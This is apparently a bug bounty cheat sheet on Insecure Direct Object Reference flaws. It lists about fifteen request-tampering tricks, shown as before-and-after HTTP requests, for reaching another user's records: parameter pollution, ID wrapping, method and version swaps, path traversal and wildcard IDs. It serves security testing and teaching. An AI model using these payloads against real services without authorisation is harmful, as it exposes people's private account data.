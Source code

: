 # Insecure Direct Object Reference

## IDOR Checklist

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Basics

[https://owasp.org/www-project-top-ten/2017/A5\_2017-Broken\_Access\_Control.html](https://owasp.org/www-project-top-ten/2017/A5\_2017-Broken\_Access\_Control.html)\
\
For example, let's say we're logging into our bank account, and after correctly authenticating ourselves, we get taken to a URL like this [https://example.com/bank?account\_number=1234](https://example.com/bank?account\_number=1234). On that page we can see all our important bank details, and a user would do whatever they needed to do and move along their way thinking nothing is wrong.\
There is however a potentially huge problem here, a hacker may be able to change the account\_number parameter to something else like 1235, and if the site is incorrectly configured, then he would have access to someone else's bank information.

### **How to Find**

1. Add parameters onto the endpoints for example, if there was

```
GET /api/v1/getuser
[...]
```

Try this to bypass

```
GET /api/v1/getuser?id=1234
[...]
```

1. HTTP Parameter pollution

```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

1. Add .json to the endpoint

```
GET /v2/GetData/1234
[...]
```

Try this to bypass

```
GET /v2/GetData/1234.json
[...]
```

1. Test on outdated API Versions

```
POST /v2/GetData
[...]
id=123
```

Try this to bypass

```
POST /v1/GetData
[...]
id=123
```

1. Wrap the ID with an array.

```
POST /api/get_profile
[...]
{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile
[...]
{"id":[111]}
```

1. Wrap the ID with a JSON object

```
POST /api/get_profile
[...]
{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

1. JSON Parameter Pollution

```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

1. Try decode the ID, if the ID encoded using md5,base64,etc

```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```

dmljdGltQG1haWwuY29t => [victim@mail.com](mailto:victim@mail.com)

1. If the website using graphql, try to find IDOR using graphql!

```
GET /graphql
[...]
```

```
GET /graphql.php?query=
[...]
```

1. MFLAC (Missing Function Level Access Control)

```
GET /admin/profile
```

Try this to bypass

```
GET /ADMIN/profile
```

1. Try to swap uuid with number

```
GET /file?id=90ri2-xozifke-29ikedaw0d
```

Try this to bypass

```
GET /file?id=302
```

1. Change HTTP Method

```
GET /api/v1/users/profile/111
```

Try this to bypass

```
POST /api/v1/users/profile/111
```

1. Path traversal

```
GET /api/v1/users/profile/victim_id
```

Try this to bypass

```
GET /api/v1/users/profile/my_id/../victim_id
```

1. Change request content type

```
Content-type: application/xml
```

Try this to bypass

```
Content-type: application/json
```

1. Send wildcard instead of ID

```
GET /api/users/111
```

Try this to bypass

```
GET /api/users/*
```

1. Try google dorking to find new endpoint

Reference:

* [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup
* [https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md)
